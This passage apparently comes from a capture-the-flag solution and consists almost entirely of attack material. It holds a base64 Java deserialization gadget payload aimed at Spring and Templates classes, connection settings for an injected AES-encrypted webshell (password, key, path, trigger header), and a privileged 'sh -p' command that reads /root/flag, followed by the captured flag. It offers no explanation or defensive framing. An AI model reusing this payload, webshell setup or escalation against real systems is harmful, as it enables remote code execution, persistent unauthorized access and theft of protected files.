BY/wBaAAIHAAoHAFgAAQcAhvoACUIHAL4JHAdCBwCGCwAIAMAABgABAKcAAAAlAAIAAAAAAAm7AApZtwCkV7EAAAABAKgAAAAKAAIAAAAWAAgAFwADAMEAAAACAMIAwwAAAAgAAQDEAAEAygDMAAAAEgACAHUAbQDNAAkAzgDQANIAGXVxAH4AQAAAAJjK/rq+AAAANwAMAQAEQ2FsYwcAAQEAEGphdmEvbGFuZy9PYmplY3QHAAMBAApTb3VyY2VGaWxlAQAJQ2FsYy5qYXZhAQAGPGluaXQ+AQADKClWDAAHAAgKAAQACQEABENvZGUAIQACAAQAAAAAAAEAAQAHAAgAAQALAAAAEQABAAEAAAAFKrcACrEAAAAAAAEABQAAAAIABnB0AAJza3B3AQB4cHZyAB1qYXZheC54bWwudHJhbnNmb3JtLlRlbXBsYXRlcwAAAAAAAAAAAAAAeHBwcHB0ABNnZXRPdXRwdXRQcm9wZXJ0aWVzdXIAEltMamF2YS5sYW5nLkNsYXNzO6sW167LzVqZAgAAeHAAAAAAc3IAOW9yZy5zcHJpbmdmcmFtZXdvcmsuYW9wLmFzcGVjdGouQXNwZWN0SkV4cHJlc3Npb25Qb2ludGN1dHXNTIlyDnf7AgAETAALYmVhbkZhY3Rvcnl0AC9Mb3JnL3NwcmluZ2ZyYW1ld29yay9iZWFucy9mYWN0b3J5L0JlYW5GYWN0b3J5O0wAGHBvaW50Y3V0RGVjbGFyYXRpb25TY29wZXEAfgAzWwAWcG9pbnRjdXRQYXJhbWV0ZXJOYW1lc3EAfgAwWwAWcG9pbnRjdXRQYXJhbWV0ZXJUeXBlc3EAfgA1eHIAOm9yZy5zcHJpbmdmcmFtZXdvcmsuYW9wLnN1cHBvcnQuQWJzdHJhY3RFeHByZXNzaW9uUG9pbnRjdXSMooLQ1cEqUAIAAkwACmV4cHJlc3Npb25xAH4AMkwACGxvY2F0aW9ucQB+ADJ4cHBwcHBwcHBwc3IAF2phdmEudXRpbC5MaW5rZWRIYXNoU2V02GzXWpXdKh4CAAB4cgARamF2YS51dGlsLkhhc2hTZXS6RIWVlri3NAMAAHhwdwwAAAAQP0AAAAAAAAB4eHNxAH4AHAAAAAB3BAAAAAB4c3EAfgAqdAAHYXBlMXJvbnBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHBwcHgAAAAAAAAAZHB4
```



```txt
 基础信息:
加密器: JAVA_AES_BASE64
密码: fqKXy
密钥: BMyoah
请求路径: /*
请求头: Accept: wscdabQzRkKpUYA
```




```bash
/app/ >/usr/bin/sh -p -c 'cat /root/flag'

flag{e4d07e6a-7742-410f-9034-9fa9893b6698}
```
